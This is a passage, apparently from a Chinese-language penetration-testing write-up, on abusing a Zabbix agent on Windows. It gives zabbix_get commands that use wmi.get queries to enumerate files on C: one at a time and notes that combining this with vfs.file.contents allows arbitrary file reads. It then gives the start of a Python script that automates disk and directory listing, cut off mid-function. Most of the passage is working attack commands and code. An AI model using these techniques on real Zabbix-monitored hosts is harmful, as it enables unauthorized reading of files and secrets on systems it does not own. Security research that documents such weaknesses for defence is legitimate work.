 获取 C: 下的文件，采用条件语句排除法逐行获取。

```plain
zabbix_get -s 192.168.98.2 -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Name FROM CIM_DataFile WHERE Drive='C:' AND Path='\\\\' \"]"

zabbix_get -s 192.168.98.2 -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Name FROM CIM_DataFile WHERE Drive='C:' AND Path='\\\\' AND Name != 'C:\\\\\$WINRE_BACKUP_PARTITION.MARKER' \"]"

zabbix_get -s 192.168.98.2 -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Name FROM CIM_DataFile WHERE Drive='C:' AND Path='\\\\' AND Name != 'C:\\\\\$WINRE_BACKUP_PARTITION.MARKER' AND Name !='C:\\\\browser.exe' \"]"

...
```

![-w947](assets/1711961932-a2beb71956c0436e2ddeaf59ae948531.jpg)

利用 `wmi.get` 命令进行目录遍历、文件遍历，结合 `vfs.file.contents` 命令就能够在 Windows 下实现任意文件读取。

基于 zabbix\_get 命令写了个 python 脚本，实现 Windows 的列目录、读文件功能。

```plain
import os
import sys

count = 0

def zabbix_exec(ip, command):
    global count
    count = count + 1
    check = os.popen("./zabbix_get -s " + ip + " -k \"" + command + "\"").read()
    if "Cannot obtain WMI information" not in check:
        return check.strip()
    else:
        return False

def getpath(path):
    return path.replace("\\","\\\\\\\\").replace("$","\\$")

def GetDisk(ip):
    where = ""
    while(True):
        check_disk = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Name FROM Win32_LogicalDisk WHERE Name != '' " + where + "\\\"]")
        if check_disk:
            print(check_disk)
            where = where + "AND Name != '" + check_disk+ "'"
        else:
            break

def GetDirs(ip, dir):
    drive = dir[0:2]
    path = dir[2:]

    where = ""
    while(True):
```